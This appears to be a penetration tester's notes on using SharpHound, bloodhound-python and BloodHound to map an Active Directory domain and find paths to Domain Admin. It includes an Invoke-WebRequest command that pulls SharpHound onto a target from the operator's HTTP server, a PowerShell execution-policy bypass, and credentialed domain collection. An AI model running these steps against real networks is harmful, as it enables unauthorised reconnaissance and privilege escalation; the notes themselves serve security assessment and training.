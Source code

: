 # Data Ingesters
Collects data for Bloodhound to analyse.
## Sharphound
https://github.com/SpecterOps/SharpHound/releases
### Step 1: Transfer Sharphound to target
```bash
python3 -m http.server
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SharpHound.ps1 -OutFile SharpHound.ps1
```
### Step 2: Import Sharphound module
```powershell
powershell -ep bypass
```
```powershell
Import-Module .\SharpHound.ps1
```
### Step 3: Invoke-Bloodhound
```powershell
Get-Help Invoke-BloodHound
```
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory $(PATH_TO_CURRENT_DIRECTORY) -OutputPrefix "$(OUTPUT_FILENAME)"
```
## Bloodhound-Python
```bash
sudo bloodhound-python -d $(DOMAIN) -u $(USERNAME) -p $(PASSWORD) -ns $(DC_IP_ADDRESS) -c all
```
# Bloodhound
## How to run Bloodhound
```bash
sudo neo4j start
```
Note the link:
![image](https://github.com/user-attachments/assets/f775144d-ddcc-4a2b-8e1e-62e17eb024ac)

Log in with default credentials (neo4j/neo4j) and change the password when prompted (REMEMBER THE CREDS - I usually do neo4j1).
```bash
bloodhound
```
On bloodhound, at the menu on the right hand side, select "Upload Data".

Then, navigate to where the files were created and select them all.

Finally, click Settings (represented as two cogs) on the right side of the interface and setting Node Label Display to Always Display.
## Analysis
Useful Options:
* Click the Hamburger menu at the top left. This presents the Database Info.
* Click "Find All Domain Admins".
* Click "Find Shortest Paths to Domain Admins". Right clicking any connection between nodes and clicking "Help" will show more details 
* Objects can be right clicked and "Mark x as Owned" selected. This allows use to mark which objects/users are owned.
* "Shortest Paths to Domain Admins from Owned Principals" option is useful as it shows how to get to Domain Admin based on what we have marked as owned.
